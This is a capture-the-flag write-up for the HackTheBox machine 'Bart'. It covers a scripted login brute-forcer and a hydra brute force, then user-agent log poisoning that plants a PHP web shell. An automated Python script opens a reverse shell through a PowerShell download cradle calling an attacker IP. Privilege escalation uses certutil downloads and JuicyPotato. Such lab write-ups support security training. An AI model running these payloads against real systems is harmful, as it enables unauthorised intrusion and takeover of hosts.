

This machine is a Medium Box from HackTheBox. The entry point is on web app with two weak credentials. We get the username looking for the e-mails on the web page, and start bruteforcing it. Once we got on the vulnerable part of the app we see that it has a XMLHttpRequest vulnerable, which we can write php files on the server, and execute them on the browser, with that said, we can get a reverse shell with it.

The privilege escalation I did trough JuicyPotato, after see that the user has SeImpersonatPrivilege enabled.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.81
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.

We need to add the `forum.bart.htb` on /etc/hosts to get it working


We cannot rum gobuster on this box because it has a filter, so we use wfuzz and be based on the content lenght of the response

```sh
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 150693 http://bart.htb/FUZZ
```


We found two interesting paths

`/monitor` and `/forum`

### /monitor

Acessing /monitor, we have


If we try the `Forgot Password` function, we got


#### Account Identification

Now we must identify some accounts to try to get it

On `forum.bart.htb` we got 5 e-mails to play with

|  Name |  Email |  Position |  reference |
|---|---|---|---|
Samantha Brown |	s.brown@bart.local 	|CEO@BART |	Our Team
Daniel Simmons |	d.simmons@bart.htb 	|Head of Sales |	Our Team
Robert Hilton 	|r.hilton@bart.htb |	Head of IT |	Our Team
Harvey Potter 	| h.potter@bart.htb |	Developer@BART |	Our Team, commented out
Daniella Lamborghini |	d.lamborghini@bart.htb (guess?) |	Head of Recruitment |	News

So I started trying the e-mails. To see if I can get one working

And with `harvey` I saw that it worked


## Login Brute Force (Scripting)

Now that we have an account, let's try to bruteforce it.

We see how it works in Burp


Sure, we see that we have a `CSRFToken` on the request, we will need to get it before send the data, so let's use a simple skeleton in python to start builind our script

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

```sh
python3 brute_login.py -t bart.htb -u harvey -w wordlist.txt
```


user_brute.py
```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Bart
# User Brute Force

import argparse
import requests
import sys
import os

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# First, we need to get the CSRFToken
def getCSRFToken(rhost):
    # Build the url
    login_url = 'http://' + rhost + '/monitor/?action=forgot'
    # Make csrfMagicToken global
    global csrf_token
    # Make the request to get csrf token
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("csrf")
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[2]
    if csrf_token:
        print("[+] We got the CSRF Token [+]")
        return csrf_token
    else:
        print("[+] Cannot get the CSRF_TOKEN [+]")
        exit

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/monitor/?action=forgot'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the csrf_token for each request
        getCSRFToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"csrf": "%s" %csrf_token, "user_name": "%s" %username, "user_password": "%s" %line, "action": "login"}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            print()
            break
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist

    '''Here we call the functions'''
    # Let's get it working
    loginRequest(rhost,wordlist,username)

if __name__ == '__main__':
    main()
```

Ok, we got a password, now let's login on the app to see what we can do


Clicking on the tabs, we found another subdomain


We access it


## Login Brute Force (Hydra)

We see on the url something interesting

`http://internal-01.bart.htb/simple_chat/login_form.php`

We will try to bruteforce it's user


We se here that the password must be at least 8 digits

Let's create a wordlist with at least 8 digits to bruteforce it with hydra (different approach)

```sh
sed -nr '/^.{8,9}$/p' /usr/share/wordlists/rockyou.txt > rockyou_new.txt
```


We see on BurpSuite what we need to put on hydra


```sh
hydra -l harvey -P rockyou_new.txt -t 60 internal-01.bart.htb http-form-post "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:F=Invalid Username or Password"
```


And we found the password from harvey, **harvey:Password1**


And we get logged in


We see on the source code something interesting 


Let's inspect what is happening here

```js
function saveChat() {
// create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
	var xhr = new XMLHttpRequest();
		xhr.onreadystatechange = function() {
			if (xhr.readyState == XMLHttpRequest.DONE) {
			alert(xhr.responseText);
			}
				}
		xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
			xhr.send(null);
			alert("Done");
}
```

Seems that it's getting the the values from the user harvey on the file `log.txt`

If we open the `log.txt` file, we see that we get the user agent printed on our screen


Humm... we try to click on Log, on the page and see the alert pop the Done in our screen

When the user clicks the Log link, there's a popup saying "Done", and then one saying "1". That's because the xhr.open function is called with the 3rd parameter true, which sets the call to async mode. The script then alerts "Done", and then, when the http request comes back, the xhr.onreadystatechange function is called, which alerts with the response text.

Checking out the url that's being called, if viewed directly, it outputs just the number 1, as seen in the popup.

If you change the file parameter to a file that already exists and we can't write over (like the page source), it returns 0. Also, if you change it to a user that doesn’t exist, it returns 0. What about the file? Turns out that file is available in the same directory:


So, we should poison it, once it's getting the user agent, if we put a malicious php as user-agent it will be executed.

# RCE

So, let's execute it

```py
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'0x4rt3mis: <?php phpinfo(); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', proxies=proxies, headers=headers)
```


And visiting we got it


Now, we will send a simple cmd

```py
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'0x4rt3mis: <?php system($_REQUEST["cmd"]); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=cmd.php&username=harvey', proxies=proxies, headers=headers)
```


We test it, and we got RCE!


Now, with it, let's get a reverse shell, for it, we'll use the nishang one

```sh
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 4444" >> Invoke-PowerShellTcp.ps1
tail -n1 Invoke-PowerShellTcp.ps1
```


We execute and got a reverse shell


## Scripting

Now, let's automate it, to get a reverse shell one click to this box

```sh
python3 rev_auto.py -t bart.htb -u harvey -p Password1 -port 5555 -ip 10.10.14.20
```


```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Bart
# Auto Reverse Shell

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''                                                                   
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Mount the payload
def mountPayload(lhost,lport):
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport)) 
    file.close()
    print("[+] Call added! [+]")

def login(rhost,user,password):
	url = "http://internal-01.%s:80/simple_chat/login.php" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded", "Origin": "http://internal-01.bart.htb", "Referer": "http://internal-01.bart.htb/simple_chat/login_form.php"}
	data = {"uname": "%s" %user, "passwd": "%s" %password, "submit": "Login"}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
	
def uploadMalicious(rhost):
	headers={'User-Agent':'0x4rt3mis: <?php system($_REQUEST["cmd"]); ?>'}
	print("[+] Let's upload our malicious php!!! [+]")
	r = requests.get('http://internal-01.%s/log/log.php?filename=cmd.php&username=harvey' %rhost, proxies=proxies, headers=headers)
	print("[+] Great, we done it! [+]")

def getRev(rhost,lhost):
	print("[+] Now, let's get the reverse shell! [+]")
	url = "http://internal-01.%s:80/log/cmd.php" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"cmd": "powershell IEX(New-Object Net.WebClient).downloadString('http://%s/Invoke-PowerShellTcp.ps1')" %lhost}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-p', '--password', help='Password to log on the app', required=True)
    parser.add_argument('-port', '--port', help='Port to receive the reverse shell', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    user = args.username
    password = args.password
    lport = args.port
    lhost = args.ip
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
    webServer()
    # Let's mount the payload
    mountPayload(lhost,lport)
    # Let's log in
    login(rhost,user,password)
    # Let's upload the payload
    uploadMalicious(rhost)
    # Let's call the reverse shell
    getRev(rhost,lhost)
    
if __name__ == '__main__':
    main()
```

# Privilege Escalation

Now, let's escalate privilege


`https://ohpe.it/juicy-potato/`

`https://github.com/ohpe/juicy-potato/releases/tag/v0.1`

```sh
certutil -urlcache -split -f http://10.10.14.20:8000/JuicyPotato.exe C:\Users\Public\JuicyPotato.exe
```


Now we create a call

`powershell "IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.20:8000/Invoke-PowerShellTcp.ps1')"`

`certutil -urlcache -split -f http://10.10.14.20:8000/reverse.bat C:\Users\Public\reverse.bat`


```ps
.\JuicyPotato.exe -t * -p .\reverse.bat -l 1111 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

